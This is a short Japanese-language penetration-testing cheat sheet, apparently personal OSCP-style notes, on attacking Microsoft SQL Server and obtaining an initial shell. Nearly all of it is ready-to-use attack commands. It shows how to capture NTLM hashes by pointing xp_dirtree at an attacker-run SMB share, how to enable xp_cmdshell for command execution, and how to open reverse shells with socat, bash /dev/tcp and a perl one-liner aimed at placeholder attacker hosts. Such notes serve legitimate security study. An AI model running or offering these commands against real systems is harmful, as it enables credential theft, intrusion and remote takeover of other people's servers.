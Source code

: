 ```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

SQL> select @@ version;

# NTLM Hashの奪取
sudo smbserver.py -smb2support smb . #Kali側
SQL> exec master .. xp_dirtree '\\<IP>\smb\'

# コマンド実行。実行権限が割り当てられていなければ不可
SQL> xp_cmdshell whoami
SQL> <command>

# MSSQL 2005だとxp_cmdshellがデフォルトで無効になっていることが多いので、以下で有効化する
EXEC sp_configure 'show advanced options', 1;--
RECONFIGURE;-- 
EXEC sp_configure 'xp_cmdshell', 1;-- 
RECONFIGURE;--
```

### その他手動での MSSQL インジェクションのリソース

```
https://www.asafety.fr/mssql-injection-cheat-sheet/
```

## ほかInitialShell取得に使えそうなコマンド等

### Reverse Shell

#### socat

binary -> https://github.com/andrew-d/static-binaries
local

```
$ socat file:`tty`,raw,echo=0 tcp-listen:12345
```

remote

```
$ socat tcp-connect:$RHOST:$RPORT exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

#### bash

```
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
```

#### perl

```
perl -e 'use Socket;$i="[LHOST]";$p=[LPORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
